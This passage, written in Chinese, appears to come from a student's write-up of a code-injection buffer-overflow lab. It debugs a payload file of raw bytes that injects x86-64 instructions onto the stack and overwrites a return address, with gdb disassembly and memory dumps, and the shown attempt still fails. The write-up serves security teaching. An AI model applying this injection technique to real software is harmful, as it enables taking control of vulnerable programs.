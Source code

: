 还是报错。

思考后发现存储的时候，没有考虑到小端存储和指令从小到大的地址进行执行的原理：最后存放的漏洞代码地址，要放在最后面，这个没什么问题；但是漏洞代码怎么执行呢？应该是从之前的栈顶往地址高的地方执行，所以栈顶从下至上（地址从低到高）保存指令应该依次是：

```assembly
0x5561dc78: movq $0x59b997fa,%rdi
		+7	pushq $0x4017ec
		+c	ret
```

所以在拼装`exploit2.txt`的时候，最前面的数据就是直接放漏洞代码的字节表示`p2.o`。之前出错就是因为没有考虑到栈的地址是从下到上逐渐递增的。

重新改写`exploit2.txt`：

```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
6b dc 61 55 00 00 00 00
```

执行还是报错，查看此时栈保存的指令：

```assembly
(gdb) disassemble
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
=> 0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    ret

(gdb) x/10i $rsp
   0x5561dc78:  mov    $0x59b997fa,%rdi
   0x5561dc7f:  push   $0x4017ec
   0x5561dc84:  ret
   0x5561dc85:  add    %al,(%rax)
   0x5561dc87:  add    %al,(%rax)
   0x5561dc89:  add    %al,(%rax)
   0x5561dc8b:  add    %al,(%rax)
   0x5561dc8d:  add    %al,(%rax)
   0x5561dc8f:  add    %al,(%rax)
   0x5561dc91:  add    %al,(%rax)

(gdb) x/50xb $rsp
0x5561dc78:     0x48    0xc7    0xc7    0xfa    0x97    0xb9    0x59    0x68
0x5561dc80:     0xec    0x17    0x40    0x00    0xc3    0x00    0x00    0x00
0x5561dc88:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc90:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc98:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dca0:     0x6b    0xdc    0x61    0x55    0x00    0x00    0x00    0x00
```
